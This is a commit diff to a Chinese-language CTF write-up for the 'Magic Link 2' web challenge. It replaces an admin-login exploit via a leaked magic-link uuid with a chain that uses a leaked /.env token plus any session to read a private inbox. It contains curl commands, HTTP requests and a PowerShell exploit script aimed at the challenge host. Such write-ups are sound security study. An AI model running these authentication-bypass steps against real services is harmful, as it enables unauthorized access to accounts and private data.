

Before and after one commit to gggongyizhen/AgentWP, an MkDocs documentation site: the page built from docs/Blue Hens CTF 2026/Magic Link 2.md, in a window 1280 px wide and 1400 px high, scrolled down 1761 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 3132 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
补全Magic Link 2并新增Magic Link 3题解

````diff
--- a/docs/Blue Hens CTF 2026/Magic Link 2.md
+++ b/docs/Blue Hens CTF 2026/Magic Link 2.md
@@ -5,20 +5,25 @@
 - 类型：Web
 - 题目状态：已解出
 - 目标：https://bluehens-magic-link.chals.io/
-- 核心漏洞：Magic link 的一次性 `uuid` 直接在 `/login` 响应里返回，随后可通过 `/login/<uuid>` 直接换取登录态
+- 核心漏洞：`/.env` 泄露的 Teddy token 可以配合任意已登录 session 访问 `/inbox`，从而读到 Teddy 收件箱里的第二层 flag
 
 ## 入口与现象
 
-2026-04-18 实测首页依然是一个极简的 Magic Link 登录页，前端会把邮箱提交到 `/login`：
+第一层已经能从 `/.env` 读到：
 
-```html
-<form id="magic-link-form">
-  <input type="email" name="email" placeholder="Enter Email" required>
-  <button type="submit">Send Magic Link</button>
-</form>
+```text
+TEDDYS_EMAIL=teddy@udctf.com
+TEDDYS_TOKEN=udctf{d0n7_h057_y0ur_3nv_f113}
+ADMIN_EMAIL=admin@udctf.com
+INBOX_URL=http://localhost:5050/inbox?token=${TEDDYS_TOKEN}
 ```
 
-先做基础枚举，`robots.txt` 里给了几个隐藏路径：
+这里最关键的不是第一层 flag 本身，而是后两项信息：
+
+- Teddy 的 inbox 需要一个 `token`
+- 管理员邮箱和 Teddy 的内部收件箱是题目后续流程的一部分
+
+再看 `robots.txt`：
 
 ```text
 User-agent: *
@@ -27,132 +32,101 @@ Disallow: /dashboard
 Disallow: /.env
 ```
 
-继续访问 `/.env`，可以看到：
-
-```text
-TEDDYS_EMAIL=teddy@udctf.com
-TEDDYS_TOKEN=udctf{d0n7_h057_y0ur_3nv_f113}
-ADMIN_EMAIL=admin@udctf.com
-INBOX_URL=http://localhost:5050/inbox?token=${TEDDYS_TOKEN}
-```
-
-这里的 `TEDDYS_TOKEN` 正好是第一层的 flag，但不是这题的最终答案。真正需要注意的是：
-
-- 站点里确实存在 `admin@udctf.com`
-- 题目强调的是 Magic Link 登录
-- 所以应该继续看 magic link 本身有没有实现缺陷
+`/inbox` 明确被藏起来了，说明它就是下一层重点。
 
 ## 分析过程
 
-### 1. 先观察 `/login` 的真实返回
+### 1. `token` 单独访问 `/inbox` 不够
 
-向 `/login` 提交管理员邮箱：
+直接访问：
 
 ```http
-POST /login HTTP/1.1
-Host: bluehens-magic-link.chals.io
-Content-Type: multipart/form-data
-
-email=admin@udctf.com
-```
-
-返回 JSON：
-
-```json
-{
-  "datetime": "2026-04-18T09:53:46.970346+00:00",
-  "email": "admin@udctf.com",
-  "ip-address": "10.1.0.20",
-  "message": "Magic link generated, check your email.",
-  "uuid": "NHfaAN3pn9mvsXjAfR138g"
-}
-```
-
-这里最关键的问题是：后端把 magic link 对应的一次性 `uuid` 直接返回给前端了。
-
-正常设计里，这种 token 应该只出现在邮件里，不应该直接暴露给请求者。既然已经拿到了 `uuid`，那下一步就应该试它是不是可以直接当登录链接使用。
-
-### 2. 发现真正的 magic link 入口是 `/login/<uuid>`
-
-访问：
-
-```http
-GET /login/NHfaAN3pn9mvsXjAfR138g HTTP/1.1
+GET /inbox?token=udctf{d0n7_h057_y0ur_3nv_f113} HTTP/1.1
 Host: bluehens-magic-link.chals.io
 ```
 
-服务端返回重定向，并设置了 session：
+返回：
 
 ```http
-HTTP/1.1 302 FOUND
-Location: /dashboard
-Set-Cookie: session=...; HttpOnly; Path=/
+HTTP/1.1 403 FORBIDDEN
 ```
 
-我在 2026-04-18 的一次顺序复现实测中，服务端明确给管理员下发了登录态：
+说明 `/inbox` 不是单纯拿 token 就能看，还额外要求调用者处于某种已认证状态。
 
-```text
-Set-Cookie: session=eyJ1c2VyIjoiYWRtaW5AdWRjdGYuY29tIn0....
-```
+### 2. 先拿一个普通登录态
 
-把这个 session 带去访问 `/dashboard`：
+继续测试发现，`/login` 不只会给管理员或 Teddy 生成 magic link，任意邮箱都能收到返回的 `uuid`。随后访问 `/login/<uuid>` 就能得到一个已登录 session。
+
+这意味着第二层并不要求先拿管理员权限，只要先换到任意登录态，再带着第一层泄露的 token 去打 `/inbox` 即可。
+
+### 3. 带 session 和 Teddy token 打开收件箱
+
+我在 2026-04-18 的实测中，用一个随机邮箱换到 session 后，再访问：
 
 ```http
-GET /dashboard HTTP/1.1
+GET /inbox?token=udctf{d0n7_h057_y0ur_3nv_f113} HTTP/1.1
 Host: bluehens-magic-link.chals.io
 Cookie: session=...
 ```
 
-返回内容：
+服务端会返回 Teddy 的 inbox 页面：
 
 ```html
-<h1>Welcome Admin</h1><p>Flag: udctf{y0u_4r3_m4g1c_l1nk_m4st3r}</p>
+<h2>Teddy's Inbox (Refreshes every 5s)</h2>
+```
+
+这个页面非常长，夹杂大量空白节点，直接肉眼看很不方便。把返回内容保存下来再搜 `udctf{`，就能在靠后的位置找到第二层 flag：
+
+```html
+<li><a href="/login/m8hxfWL6vuzPl3fOm-Ywjw">Click here to login</a></li>
+<p>udctf{m4g1c_l1nks_4r3_w31rd}</p>
 ```
 
 到这里第二层 flag 就出来了。
 
 ## 利用过程
 
-1. 查看 `robots.txt`，发现 `/.env`、`/inbox`、`/dashboard`。
-2. 读取 `/.env`，确认题目里存在 `admin@udctf.com`，并注意到前面的 `TEDDYS_TOKEN` 只是第一层 flag。
-3. 向 `/login` 提交 `admin@udctf.com`，拿到响应中的 `uuid`。
-4. 直接访问 `/login/<uuid>`，服务端会设置管理员 session 并跳转到 `/dashboard`。
-5. 带着该 session 访问 `/dashboard`，读取最终 flag。
+1. 通过 `/.env` 拿到 Teddy 的 token，也就是 `udctf{d0n7_h057_y0ur_3nv_f113}`。
+2. 向 `/login` 提交任意邮箱，读取响应中的 `uuid`。
+3. 访问 `/login/<uuid>`，换到一个已登录 session。
+4. 带着这个 session 访问 `/inbox?token=TEDDYS_TOKEN`。
+5. 保存 inbox HTML 并搜索 `udctf{`，读出第二层 flag。
 
 ## 关键 payload / 命令
 
-```bash
-curl -i https://bluehens-magic-link.chals.io/robots.txt
-curl -i https://bluehens-magic-link.chals.io/.env
-curl -i -X POST -F "email=admin@udctf.com" https://bluehens-magic-link.chals.io/login
-curl -i https://bluehens-magic-link.chals.io/login/<uuid>
-curl -i -b "session=<cookie>" https://bluehens-magic-link.chals.io/dashboard
+```powershell
+$mail = 'foo@example.com'
+$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
+$login = Invoke-RestMethod -Method Post -Uri 'https://bluehens-magic-link.chals.io/login' -Form @{ email = $mail }
+$uuid = $login.uuid
+try {
+    Invoke-WebRequest -Uri ("https://bluehens-magic-link.chals.io/login/" + $uuid) -WebSession $s -MaximumRedirection 0 -ErrorAction Stop | Out-Null
+} catch {
+    if ($_.Exception.Response.StatusCode.value__ -notin 301,302,303,307,308) { throw }
+}
+$inbox = Invoke-WebRequest -Uri 'https://bluehens-magic-link.chals.io/inbox?token=udctf{d0n7_h057_y0ur_3nv_f113}' -WebSession $s
+$inbox.Content | Set-Content .\inbox.html
 ```
 
-为了稳定复现，我最后使用了同一个会话顺序完成整个链条：
+然后本地搜索：
 
-```powershell
-$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
-$login = Invoke-RestMethod -Method Post -Uri 'https://bluehens-magic-link.chals.io/login' -Form @{ email = 'admin@udctf.com' }
-$uuid = $login.uuid
-Invoke-WebRequest -Uri ("https://bluehens-magic-link.chals.io/login/" + $uuid) -WebSession $s
-Invoke-WebRequest -Uri 'https://bluehens-magic-link.chals.io/dashboard' -WebSession $s
+```bash
+rg -n "udctf\\{|/login/" inbox.html
 ```
 
-关键输出：
+关键命中：
 
-```text
-ADMIN_UUID=X0_5VEkDD9E6njtVNrhYCQ
-200
-<h1>Welcome Admin</h1><p>Flag: udctf{y0u_4r3_m4g1c_l1nk_m4st3r}</p>
+```html
+<li><a href="/login/m8hxfWL6vuzPl3fOm-Ywjw">Click here to login</a></li>
+<p>udctf{m4g1c_l1nks_4r3_w31rd}</p>
 ```
 
 ## Flag
 
 ```text
-udctf{y0u_4r3_m4g1c_l1nk_m4st3r}
+udctf{m4g1c_l1nks_4r3_w31rd}
 ```
 
 ## 总结
 
-这题表面上先用 `/.env` 给了一个很像终点的第一层 flag，但真正的漏洞在 magic link 的实现本身。后端把登录用的一次性 `uuid` 直接回给前端，等于把邮件里的敏感链接主动泄露给了攻击者。只要知道管理员邮箱，就可以自己申请 magic link、自己消费 `/login/<uuid>`、再直接进入管理员面板拿到最终 flag。
+第二层的核心问题是鉴权拼接错了。开发者本来想用 Teddy 的 token 保护内部 inbox，但实际检查变成了“泄露的 token + 任意已登录 session”就能通过。结果是攻击者只要先拿第一层的 `.env` 泄露，再随便给自己换一个 magic link 登录态，就能读到 Teddy 收件箱里的第二层 flag。
````
Also changed, not shown: docs/Blue Hens CTF 2026/Magic Link 3.md (added, +108 -0 lines), docs/index.md (+2 -0 lines).
